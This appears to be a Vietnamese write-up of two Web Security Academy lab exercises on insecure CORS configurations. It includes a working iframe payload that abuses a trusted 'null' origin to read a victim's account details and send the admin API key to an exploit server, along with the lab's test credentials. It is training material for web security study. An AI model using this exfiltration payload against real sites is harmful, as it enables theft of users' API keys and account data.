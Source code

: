 
### Lab: CORS vulnerability with trusted null origin  

Trang web này có cấu hình CORS không an toàn ở chỗ nó tin tưởng nguồn gốc "null".

Hãy tạo một số JavaScript sử dụng CORS để truy xuất khóa API của quản trị viên và tải mã lên máy chủ khai thác của bạn. Lab được giải quyết khi bạn gửi thành công khóa API của quản trị viên.

Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: wiener: peter

Tương tự như bài trước chúng ta phải leak đc APIkey của account được cấp sẵn. Tuy nhiên lỗ hồng lần này là vì CORS Origin : null chứ không phải là * như lần trước nên cách khai thác sẽ khác.

Truy cập bài lab tương tự như bài trên và bắt lại request để phân tích

Như đề bài mô tả thì web này lại tin cậy là null nên chúng ta gửi request kèm theo Origin : null và nhận đc như sau



Chúng ta có thể sử dụng nhiều thủ thuật khác nhau để tạo ra một yêu cầu tên miền chéo có chứa giá trị null trong Origin Header. Điều này sẽ đáp ứng whitelist, dẫn đến truy cập tên miền chéo. Từ đó có payload như sau:


```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
   var req = new XMLHttpRequest ();
   req.onload = reqListener;
   req.open('get','https://ac3e1f561f18f33a80d6a58f005900ee.web-security-academy.net/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='https://exploit-ac971f661f59f3b48092a571018c0000.web-security-academy.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe>
```

  
  
### Lab: CORS vulnerability with trusted insecure protocols

Trang web này có cấu hình CORS không an toàn ở chỗ nó tin cậy tất cả các miền phụ bất kể giao thức.

Hãy tạo một số JavaScript sử dụng CORS để truy xuất khóa API của quản trị viên và tải mã lên máy chủ khai thác của bạn. Lab được giải quyết khi bạn gửi thành công khóa API của quản trị viên.

Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: wiener: peter


Trong bài này chúng ta có 1 trang web bán hàng như sau : 

Đăng nhập và bắt lại request có chưa APIKey. Thêm Origin Header bất kỳ để check xem có sử dụng CORS hay không.


Như kết quả trả về ta thấy *Access-Control-Allow-Origin* và *Access-Control-Allow-Credentials* điều đó cho thấy có áp dụng CORS.
